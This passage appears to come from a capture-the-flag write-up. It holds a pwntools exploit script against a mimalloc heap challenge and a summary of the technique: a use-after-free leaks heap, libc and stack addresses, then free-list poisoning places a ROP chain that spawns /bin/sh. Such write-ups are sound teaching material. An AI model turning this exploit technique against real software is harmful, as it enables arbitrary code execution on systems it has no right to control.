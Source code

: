 ```python
    r.sendlineafter(b'Content? (127 max): ',content)

######################### heap leak ##########################
create(0)
edit(0,b'a'*100)
create(1)
free(0)
free(1)
look(1)

heap_leak = unpack(r.recv(6),'all')  
print(hex(heap_leak))

################## leak libc address ###############################
edit(1,pack(heap_leak+0x5980a000160+6*8-0x5980a010080)) #overwriting the next pointer of local free list
 for i in range(31): #allocating 31 chunks
    create(2)
create(3) #fake chunk allocated on free list
look(3)
r.recv(6*8)
libc.address = unpack(r.recv(6),'all')-0x00007caf37884100+0x7caf3788c000
print(hex(libc.address))

################################# stack leak #########
libc_environ = libc.address + 0x7da0fe9c6d60 - 0x7da0fe922000
edit(3,pack(libc_environ))
create(4)
look(4)
stack_leak = unpack(r.recv(6),'all')
print(hex(stack_leak)) 
######################################################

###################### rop_chain ######################
ROP = ROP(libc)
rdi = libc.address + 0x0000000000014413
ret = libc.address + 0x0000000000014126
system = libc.address + 0x00000000000501b0
payload = pack(rdi) + pack(next(libc.search('/bin/sh\0'))) + pack(ret) + pack(libc.sym.system)
ret_addr = stack_leak-0x70
edit(3,pack(ret_addr))
create(5)
edit(5,payload)
r.interactive()
```

---

## ♘Summary

- Mimalloc allocates memory in 4 MiB segments split into 64 KiB pages, each page managing fixed-size chunks with three free lists (allocation, local, thread).
- A heap leak is obtained by freeing a chunk and reading it back (since freed pointers aren’t nulled), revealing a heap address.
- Allocations are always served from the **allocation free list** first. Once this list is empty, the allocator calls the **slow path (`malloc_generic`)**, which pulls chunks from the **local free list** (by merging it back).
- Using UAF, we overwrite free list pointers (like tcache poisoning) and allocate a fake chunk inside the metadata region, which also holds libc pointers. Reading it gives both a libc leak and control over the free lists.
- To pivot to the stack, we redirect the allocation free list to `libc.environ`, leak the stack pointer.